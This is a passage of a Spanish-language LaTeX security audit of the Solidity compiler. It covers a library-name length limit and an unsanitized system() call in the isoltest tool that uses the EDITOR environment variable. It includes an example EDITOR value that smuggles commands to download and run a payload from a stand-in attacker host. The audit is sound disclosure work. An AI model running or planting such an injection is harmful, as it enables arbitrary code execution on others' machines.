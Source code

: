 Se recomendó considerar remover el tamaño máximo de nombre de librería por completo, o rediseñar la implementación para que permite utilizar librerías con nombres largos.\\

\textbf{Actualidad:} Existen \textit{issues} abiertos previos al respecto, \textbf{\#579}\cite{GHI579}, \textbf{\#3918}\cite{GHI3918} y \textbf{\#4429}\cite{GHI4429}. El equipo de Solidity respondió "Esta función no está aconsejada, los usuarios deben usar el json estándar que genera las referencias de enlace. Esto es sólo un problema en la interfaz en desuso del compilador". Solucionado en \textbf{PR\#5145}\cite{GHPR5145}.

\subsubsection{Llamadas inseguras al sistema pueden llevar a una ejecución de comandos durante la etapa de testeo.}

Comandos no sanitizados dados como argumentos para llamar a \textbf{system()} (o funciones similares como \textbf{popen()}) pueden permitir a un atacante ejecutar comandos de sistema arbitrarios.\\

El siguiente código de \textbf{isoltest} abre un editor del sistema al encontrar un error mientras testea contratos en Solidity:
\verb|/test/tools/isoltest.cpp:236|

\begin{lstlisting}[language=c++]
if (system((editor + " \"" + m_path.string() + "\"").c_str()))
  cerr << "Error running editor command." << endl << endl;
  return Request::Rerun;
\end{lstlisting}

El problema con el código anterior es que la llamada al sistema está hecha sobre una combinación de dos variables, y una de ellas no está propiamente sanitizada. \textbf{m\_path} es el path para el contrato en cuestión pero \textbf{editor} proviene de una variable de entorno, la cual controlada por un atacante puede resultar en una ejecución de comandos.

Como un simple ejemplo de cómo esto puede ser explotado, imaginemos el caso en el que un atacante haya accedido de alguna manera a manipular el contenido de la variable de entorno \verb|EDITOR|, y lo haya modificado de la siguiente manera:
\begin{lstlisting}[language=bash,caption={bash version}]
    EDITOR='wget http://attacker.site/expl;chmod +x expl;./expl; vim'
\end{lstlisting}

